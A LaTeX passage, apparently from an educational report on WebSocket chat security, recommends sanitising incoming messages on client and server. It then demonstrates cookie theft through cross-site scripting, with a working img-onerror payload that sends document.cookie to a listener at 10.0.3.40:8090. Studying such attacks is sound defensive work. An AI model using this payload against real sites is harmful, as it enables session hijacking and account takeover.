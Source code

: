 	In order to avoid trivial attack like the one presented, the client should always check incoming data, and if the data must be showed to the user it must be sanitized properly.\newline
	Another possible way to avoid an attack like that is to perform a sanitization even server side, in such a way the server act as a proxy that secure the messages, of course the client must still check the incoming data, assuming that the server is not compromised is a strong assumption that should not be done.\newline
	
	In order to reproduce this example you only need the following Java library for server side WebSocket: \url{https://github.com/TooTallNate/Java-WebSocket}.
	
	
	\paragraph{Example 2} I will now show you an example that could leak important information contained in a cookie, for example the session id, if an attacker is capable of stealing your id, he can access the website with your credentials without the need of knowing your username and password.\newline
	
	\texttt{Note:} again the login procedure is not secure, the focus is not on it and it is as simple as possible in order to make this example easy to reproduce.\newline
	
	The login page is the same seen before in example 1, the reserved page is similar but it allows the access with the following credentials:
	\begin{itemize}
		\item \texttt{pippo pippo}
		\item \texttt{pluto pluto}
	\end{itemize}
	The page includes the code of the previous chat example, the javascript code is the same and even the Java server code.\newline
	
	In order to steal the cookie we need to send the following message:
	\begin{lstlisting}
		<img src=1 hidden onerror=" document.location='http://10.0.3.40:8090/stealer?v='+document.cookie;">
	\end{lstlisting}
	
	
	The cookie is sent over, so the malevolent server is capable of stealing it.\newline
	
